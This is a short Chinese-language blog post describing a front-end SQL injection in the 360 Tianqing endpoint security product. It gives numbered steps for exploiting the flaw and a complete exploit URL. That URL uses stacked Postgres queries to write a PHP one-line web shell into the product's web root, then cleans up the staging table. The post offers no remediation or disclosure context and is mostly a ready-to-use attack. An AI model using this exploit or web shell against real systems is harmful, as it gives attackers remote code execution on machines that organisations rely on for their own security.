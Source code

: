 ```yaml
---
layout: post
title: "360天擎前台SQL注入漏洞"
subtitle: 'SQL注入'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


# 漏洞利用过程

1\. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell

2\. 通过注入点，创建一张表 O 

3\. 为 表O 添加一个新字段 T 并且写入shell内容 

4\. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)  

5\. 删除 表O 



# EXP(注入写shell)

```
https://IP/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```

